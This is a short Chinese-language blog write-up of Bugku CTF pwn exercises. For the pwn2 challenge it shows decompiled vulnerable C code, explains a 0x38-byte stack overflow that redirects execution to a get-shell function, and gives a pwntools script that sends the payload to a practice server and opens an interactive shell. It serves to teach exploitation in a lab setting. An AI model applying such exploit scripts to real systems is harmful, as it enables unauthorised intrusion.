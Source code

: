 ```yaml
---
title: Bugku Pwn 练习记录
date: 2019-10-29 15:40:03
tags:
  - 栈漏洞
  - fsb
categories:
  - 二进制安全
featuredImage: 0.png
---
```


Pwn 入门。



## pwn1

nc 上去直接拿到了 shell。

## pwn2

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-30h]

  memset(&s, 0, 0x30uLL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("say something?");
  read(0, &s, 0x100uLL);
  puts("oh,that's so boring!");
  return 0;
}
```

最简单的栈溢出，IDA 中可以发现目标函数 `get_shell_`，地址为 `0x400751`。`s` 位于 `ebp-0x30`，与要覆盖的返回地址相差 `0x38`（注意是 64 位程序），那 payload 就是 `'a'*0x38 + p64(0x400751)`。

```python
from pwn import *

p = remote('114.116.54.89', 10003)

payload = 'a'*0x38 +p64(0x400751)

p.recvline()
p.sendline(payload)

p.interactive()
```
